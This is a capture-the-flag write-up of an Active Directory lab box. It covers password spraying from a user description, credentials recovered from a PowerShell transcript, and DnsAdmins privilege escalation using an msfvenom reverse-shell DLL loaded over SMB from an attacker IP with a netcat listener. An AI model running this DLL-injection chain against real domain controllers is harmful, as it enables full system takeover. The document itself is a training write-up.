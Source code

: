 ```yaml
---
tags:
- powershell-transcripts
- dnsadmins
- dll-injection
created: 2024-04-01
lastmod: 2024-04-01
published: 2024-04-01
image:
description: 
---
```


>[!code]- Find open ports
>
>![Pasted image 20240831103518](Images/Pasted%20image%2020240831103518.png)
>![Pasted image 20240831103540](Images/Pasted%20image%2020240831103540.png)
#### Foothold

>[!code]- Enumerate users via **rpcclient** and find that **marko** user has a description which suggests their password is set to **Welcome123!**
>
>![Pasted image 20240831112156](Images/Pasted%20image%2020240831112156.png)

>[!fail]- marko:Welcome123! doesn't work

>[!code]- Find that **melanie** user has password **Welcome123!**
>
>![Pasted image 20240831113908](Images/Pasted%20image%2020240831113908.png)
#### Access

>[!success]- Obtain a shell as **melanie** and obtain user.txt
>
>![Pasted image 20240901061220](Images/Pasted%20image%2020240901061220.png)

>[!code]- Find a PowerShell transcript file containing a password for the user **ryan** (Serv3r4Admin4cc123!)
>Find the powershell transcript file:
>
>![Pasted image 20240901061002](Images/Pasted%20image%2020240901061002.png)
>
>Find the credentials:
>
>![Pasted image 20240901061415](Images/Pasted%20image%2020240901061415.png)

>[!success]- Obtain a shell as **ryan**
>
>![Pasted image 20240901061538](Images/Pasted%20image%2020240901061538.png)
#### Privilege Escalation

>[!code]- Find that ryan is a member of the **DnsAdmins** group
>
>![Pasted image 20240901064548](Images/Pasted%20image%2020240901064548.png)

>[!code]- Exploit DnsAdmins permissions by executing a malicious DLL upon DNS service startup
>###### Create the DLL
>```powershell
>msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=9001 -f dll > rev.dll
>```
>![Pasted image 20240901070858](Images/Pasted%20image%2020240901070858.png)
>
>###### Link the DLL to the DNS service
>```powershell
>dnscmd.exe /config /serverlevelplugindll \\10.10.14.13\share\rev.dll
>```
>![Pasted image 20240902081424](Images/Pasted%20image%2020240902081424.png)
>###### Make the DLL reachable
>```powershell
># On Kali (in folder containing rev.dll)
>impacket-smbserver share .
>
># Create a listener
>rlwrap nc -lvnp 9001
>```
>![Pasted image 20240902081452](Images/Pasted%20image%2020240902081452.png)
>###### Stop and start and DNS service
>```powershell
>sc.exe stop dns
>sc.exe start dns
>```
>![Pasted image 20240902081524](Images/Pasted%20image%2020240902081524.png)

>[!success]- Obtain shell as NT AUTHORITY\SYSTEM and obtain root.txt
>
>![Pasted image 20240902081613](Images/Pasted%20image%2020240902081613.png)




